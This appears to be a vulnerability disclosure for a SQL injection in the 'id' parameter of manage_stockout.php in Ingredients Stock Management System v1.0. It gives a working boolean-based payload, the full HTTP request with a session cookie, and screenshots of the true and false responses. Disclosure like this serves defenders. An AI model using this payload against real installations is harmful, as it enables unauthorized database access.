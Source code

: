 # Ingredients Stock Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15364/ingredients-stock-management-system-phpoop-free-source-code.html

Vulnerability File: /isms/admin/stocks/manage_stockout.php

Vulnerability location /isms/admin/stocks/manage_stockout.php, id

db_name = isms_db;length=7

[+] Payload: /isms/admin/stocks/manage_stockout.php?id=3%27%20and%20length(database())%20=%207--+ // Leak place ---> id

```sql
GET /isms/admin/stocks/manage_stockout.php?id=3%27%20and%20length(database())%20=%207--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=2m880botn1u43hd2gu23ttj4ug
Connection: close
```

When length (database ()) = 7
![image](https://user-images.githubusercontent.com/54017627/179384254-e259bea8-5a2d-4a65-a398-b121c1868fe2.png)


When length (database ()) = 6
![image](https://user-images.githubusercontent.com/54017627/179384259-ffb50c1d-f0e0-49ae-ae88-15af8d34a593.png)
